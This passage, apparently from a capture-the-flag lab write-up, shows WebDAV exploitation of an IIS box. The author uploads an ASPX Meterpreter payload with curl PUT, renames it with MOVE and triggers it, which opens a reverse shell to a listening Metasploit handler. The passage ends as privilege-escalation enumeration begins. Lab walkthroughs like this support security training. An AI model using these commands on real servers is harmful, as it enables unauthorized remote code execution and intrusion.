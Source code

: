     Exploit target:
    
       Id  Name
       --  ----
       0   Wildcard Target
    
    msf5 exploit(multi/handler) > run
    [*] Started reverse TCP handler on 10.10.14.14:443 
    

Trigger it, and it fails:

![1551910306439](https://0xdfimages.gitlab.io/img/1551910306439.png)

Why? If I upload `met.txt` again, I can see that the whitespace is all jacked
up:

![1551910357954](https://0xdfimages.gitlab.io/img/1551910357954.png)

I’ll upload again, this time using `--data-binary` to preserve endlines and
other control characters:

    
    
    root@kali# curl -X PUT http://10.10.10.15/met.txt --data-binary @met.aspx 
    

On refreshing `met.txt`, I see it looks much cleaner:

![1551910418743](https://0xdfimages.gitlab.io/img/1551910418743.png)

Now I’ll move the file and trigger it:

    
    
    root@kali# curl -X MOVE -H 'Destination: http://10.10.10.15/met.aspx' http://10.10.10.15/met.txt 
    root@kali# curl http://10.10.10.15/met.aspx
    

And get a shell:

    
    
    [*] Sending stage (179779 bytes) to 10.10.10.15
    [*] Meterpreter session 1 opened (10.10.14.14:443 -> 10.10.10.15:1032) at 2019-03-06 17:05:07 -0500
    
    meterpreter >
    

## Privesc to System

### Enumeration

On those older boxes, I am more likely to checkout local exploits, and
Metasploit has a nice module for that,
`post/multi/recon/local_exploit_suggester`:

    
    
    meterpreter > background
    [*] Backgrounding session 1...
    msf5 exploit(multi/handler) > search local_exploit
    